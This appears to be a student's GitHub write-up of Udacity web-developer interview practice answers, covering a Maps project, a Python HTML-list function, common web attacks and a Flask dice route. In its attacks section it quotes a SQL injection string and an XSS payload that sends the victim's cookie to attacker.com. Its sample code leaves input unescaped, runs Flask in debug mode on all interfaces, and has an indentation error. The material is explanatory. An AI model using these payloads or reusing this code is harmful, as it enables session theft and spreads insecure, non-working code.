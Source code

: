 # udacity-interview-practice-response
**1) What is the most influential book or blog post you’ve read regarding web development?**

The most influential book I have read is, “JavaScript the definitive guide” by David Flanagan
It is a great desk side reference and has good set of examples.

**2) Tell me about a web application you have built. Why did you choose to build it? What did you learn? What challenges did you face and how did you overcome them?**

I built a Neighborhood map web application. It is a single-page application featuring a map of my local neighborhood.
I chose to build it because quite a few businesses applications will want to integrate google maps and customize it to enhance the user experience.

I learned to use Knockout.js library with the MVVM pattern and also researched and integrated with third party apis. (Google Maps, Four Square, Yelp reviews).

There were several challenges, first was understanding what would be the best layout of web page and how to make the page responsive for different devices.
How to customize the map, include map markers, a search function for the locations, and a list view to support simple browsing of all locations making sure to use Knockout.js to accomplish the tasks.
I overcame these challenges by researching online, reading the documentation and using tools like Postman, Chrome developer tools. I also tried out the code in small iterations to understand how the library or api works.

***3)  Write a function in Python that takes a list of strings and returns a single string that is an HTML unordered list `(<UL>...</UL>)` of those strings. You should include a brief explanation of your code. Then, what would you have to consider if the original list was provided by user input?***

```python
'''
The function below takes in a list of strings
and returns them as an HTML unordered list. (<UL>...</UL>)
'''

def generateHtmlList(*args):
	html = "<ul>\n";
	for s in args:
		html += "<li>" + str(s) + "</li>\n"
	html += "</ul>"
	return html

print(generateHtmlList("test1", "test2", "test3"))
```
If the list is provided by user input. We can check that the input string to match only certain allowed characters. (example: only alphanumerics allowed)

***4) List 2-3 attacks that web applications are vulnerable to. How do these attacks work? How can we prevent those attacks?***

**Injection.**

Injection flaws can be SQL, NoSQL, OS and LDAP injection.
These occur when untrusted data is sent to an interpretor as part of a command or query.

Example: SQL injection
```
String query = "SELECT * FROM accounts WHERE custID='" + request.getParameter("id") + "'";

The attacker modifies the ‘id’ parameter value in
their browser to send: ' or '1'='1
```
We can prevent them by keeping data separate from commands, use of safe API that avoids use of interpretor entirely or provides a parametrized interface to access the interpretor or use of ORMs.
Also we can use positive white list for server side validation.

**Broken Authentication**

It involves using of lists of known passwords to break into systems. Application session timeout when not set properly can also cause failed authentication.

Example:
Lists of known passwords are used to break into system.
If there is no automatic threat protection application can be used to determine if credentials are valid.

Some things to prevent are, using multifactor authentication.
Not shipping or deploying with default credentials. Making sure to implement a session timeout.

**Cross Site Scripting.**

Occurs whenever an application includes untrusted data into a web page without proper validation or escaping. This allows attackers to execute scripts in the victims browser, hijack there user session, redirect them to malicious sites and or deface websites.

Example:
The application uses untrusted data in the
construction of the following HTML snippet without validation or escaping:
```
(String)page += "<input name='creditcard' type='TEXT'
value='" + request.getParameter("CC") + "'>";

The attacker modifies the ‘CC’ parameter in the browser to:
'><script>document.location='http://www.attacker.com/cgi/bin/cookie.cgi?foo=' + document.cookie </script>'

This attack causes the victim’s session ID to be sent to the attacker’s website.
```
Prevention involves using frameworks that automatically escape XSS.
Escaping untrusted HTTP request data based on the context in the HTML output.



***5) Here is some starter code for a Flask Web Application. Expand on that and include a route that simulates rolling two dice and returns the result in JSON. You should include a brief explanation of your code.***

The code uses python libraries, jsonify and random. The route lets you enter the number of dice to roll. It then generates a random number between 1 and 6 for each of the dice. The sum of the numbers is then returned as json.
```python
from flask import Flask, jsonify
import random
import json

app = Flask(__name__)

@app.route('/')
def hello_world():
 return 'Hello World!'

@app.route('/rolldice/<int:number_of_dice>/JSON')
def rolldiceJSON(number_of_dice):
"""
Gets a random number between 1 and 6 for each of the number_of_dice passed in.
The total amount is printed out.
"""
	total = 0;
	for i in range(number_of_dice):
 		total += random.randint(1,6)
	return jsonify(total=total)


if __name__ == '__main__':
  app.debug = True
  app.run(host='0.0.0.0', port=5000)
```
***6) If you were to start your full-stack developer position today, what would be your goals a year from now?***

My goals would be to understand the business requirements of the position and to deliver projects aligned with them.

Enhance my technical skills with work in Node.js and in AWS Cloud.
Making sure code is well documented, good development documentation provided as needed.

Code defects are low or non-existent. Follow ups done with Code review and client feedback.

Making sure tools and process are in place for good development and automatic checks on the work done.

Deliver value to company through well implemented projects.
Ensure good communication with team and follow up with action plans.
